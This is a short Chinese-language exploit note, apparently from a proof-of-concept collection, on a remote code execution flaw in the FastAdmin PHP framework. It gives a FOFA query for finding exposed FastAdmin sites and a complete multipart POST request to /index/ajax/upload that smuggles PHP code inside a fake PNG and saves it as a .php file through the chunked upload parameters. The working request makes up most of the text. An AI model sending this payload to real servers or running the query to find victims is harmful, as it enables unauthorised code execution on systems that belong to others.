

# FastAdmin 框架远程代码执行漏洞


FastAdmin是一款基于ThinkPHP和Bootstrap的极速后台开发框架。FastAdmin框架存在有条件RCE漏洞，当攻击者具有一定用户权限的前提下，可以实现任意文件上传，导致RCE。

FOFA：

```
app="FASTADMIN-框架" || body="\"uploadurl\":\"ajax\/upload\"" || body="api.fastadmin.net" || body="\"fastadmin\":{\"usercenter\":true" || body="content=\"FastAdmin\"" || body="cdnurl\":\"\",\"version"|| icon_hash="-1036943727"
```

详细分析可以见：https://mp.weixin.qq.com/s/otrH75ZjCHBQbRB7g5DdWg

条件：

* 普通用户
* chunking = true （开启分片上传功能）

上传头像处post：

```
//传入xx.php
POST /index/ajax/upload HTTP/1.1
Host: target

------WebKitFormBoundarybw5c2a2bqlLLOMEU
Content-Disposition: form-data; name="file"; filename="Xnip2021-04-02_11-05-27.png"
Content-Type: application/octet-stream

PNG
...
<?php phpinfo();?>
------WebKitFormBoundarybw5c2a2bqlLLOMEU
Content-Disposition: form-data; name="chunkid"

xx.php

------WebKitFormBoundarybw5c2a2bqlLLOMEU
Content-Disposition: form-data; name="chunkindex"

0
------WebKitFormBoundarybw5c2a2bqlLLOMEU
```




ref：

* https://mp.weixin.qq.com/s/otrH75ZjCHBQbRB7g5DdWg
* https://mp.weixin.qq.com/s/XP9t0TkObawMTSb41Z13gw
* https://nosec.org/home/detail/4713.html
* https://forum.ywhack.com/thread-115352-1-6.html